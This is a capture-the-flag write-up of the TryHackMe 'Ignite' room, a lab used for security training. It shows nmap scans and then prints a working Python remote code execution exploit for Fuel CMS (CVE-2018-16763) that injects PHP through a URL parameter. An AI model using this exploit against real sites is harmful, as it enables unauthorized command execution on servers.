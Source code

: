 
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-1.png)

This room was pretty straightforward, i exploited a poorly configured CMS.

Let's start with a ports scanning.

```text
nmap -sS -T 4 -p- 10.10.164.36
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-04 06:25 EDT
Nmap scan report for 10.10.164.36
Host is up (0.099s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE
80/tcp open http
```
This machine has only one port open. I will do another scan, but in more depth for this port.

```text
nmap -sV -sC -p80 10.10.164.36
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-04 06:33 EDT
Nmap scan report for 10.10.164.36
Host is up (0.11s latency).

PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

```

The webpage is the default welcome page of Fuel CMS. What i can notice about this page is the CMS version, 1.4, and the default credentials for user admin.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-2.png)

Let's check if this version is vulnerable to any CVE. Luckily i found the following exploit.

It is worth noting that i modified a bit the code.
```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

# python2
import requests
import urllib

# set the target
url = "http://10.10.164.36"

# find
def find_nth_overlapping(haystack, needle, n):
start = haystack.find(needle)
while start >= 0 and n > 1:
start = haystack.find(needle, start+1)
n -= 1
return start

while 1:
# give a unix command (Ex. id)
command = raw_input('cmd:')

# this is the payload url encoded
burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(command)+"%27%29%2b%27"

# this proxy receives the response
proxy = {"http":"http://10.10.164.36:1234"}
r = requests.get(burp0_url)

# find the beginning of the file
html = "<!DOCTYPE html>"
htmlcharset = r.text.find(html)

# find the start of the command response to display it at the top
begin = r.text[0:20]
dup = find_nth_overlapping(r.text,begin,2)

print r.text[0:dup]
```

Let's run the code with the command uname -a.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-4.png)

Based on the results, the exploit worked. Now i need to create a reverse shell to ease the privesc.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-5.png)

Now that i am on the system, i will look for the flags, starting with the user flag.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-6.png)

The escalation to root wasn't that difficult to find, as i kept looking through the files and found the root credentials in a configuration file.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-7.png)

Now i need to logi as root and read the last flag.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/Great_rooms/Ignite/images/81-8.png)
